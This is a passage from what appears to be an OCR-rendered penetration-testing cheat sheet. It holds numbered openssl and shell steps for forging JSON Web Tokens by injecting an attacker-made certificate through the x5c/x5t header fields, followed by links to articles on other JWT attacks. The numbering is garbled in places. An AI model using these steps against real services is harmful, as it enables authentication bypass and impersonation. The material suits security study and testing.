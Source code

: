 ```python
		"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
5. Extracting RSA public key parameters (n and e) from the generated certificate
		"openssl x509 -in attacker.crt -text"
6. Converting modulus (n) to base64-encoded hexadecimal strings
		"echo "Modules (n) value will be here"| sed ‘s/://g’ | base64 | tr ‘\n’ ‘ ‘ | sed ‘s/ //g’ | sed ‘s/=//g’"
7. Converting exponent (e) to base64-encoded hexadecimal strings
		"echo "exponent (e) here" | base64 | sed ‘s/=//g’"
8. Finding the new x5c value
		"cat attacker.crt | tr ‘\n’ ‘ ‘ | sed ‘s/ //g’"
9. Copy the contents excluding the — -BEGINCERTIFICATE — — and — — ENDCERTIFICATE — — part.
8. Finding the new x5t value
		"echo -n $(openssl x509 -in attacker.crt -fingerprint -noout) | sed ‘s/SHA1 Fingerprint=//g’ | sed ‘s/://g’ | base64 | sed ‘s/=//g’"
* Note: The kid parameter would also get the same value as x5t parameter.
9. Creating a forged token using all the parameters calculated in the previous step.
10. Visit https://jwt.io and paste the token retrieved in Step 3 in the “Encoded” section.
11. Paste the X.509 certificate (attacker.crt) and the private key (attacker.key) in their respective places in the “Decoded” section.
12. Manipulate Payload section and copy the forged token
13. Replace the forged token in the request and forward. Done!!

```

### Other Attacks:

\***\*Key Database Mismanagement\*\***

[Hacking JWT Tokens: Key Database Mismanagement](https://blog.pentesteracademy.com/hacking-jwt-tokens-key-database-mismanagement-58cec7769120)

\***\*Verification Key Mismanagement\*\***

[Hacking JWT Tokens: Verification Key Mismanagement](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-1b69c89ffdfb)

[Hacking JWT Tokens: Verification Key Mismanagement II](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-ii-12ca82674850)

[Hacking JWT Tokens: Verification Key Mismanagement III](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-iii-7581805f4d58)

[Hacking JWT Tokens: Verification Key Mismanagement IV](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-iv-582601f9d8ac)

\***\*Vulnerable Key Generator\*\***

[Hacking JWT Tokens: Vulnerable Key Generator](https://blog.pentesteracademy.com/hacking-jwt-tokens-vulnerable-key-generator-aff412d8d84d)

\***\*Transaction Replay\*\***

[Hacking JWT Tokens: Transaction Replay](https://blog.pentesteracademy.com/hacking-jwt-tokens-transaction-replay-56f449c2e0d0)
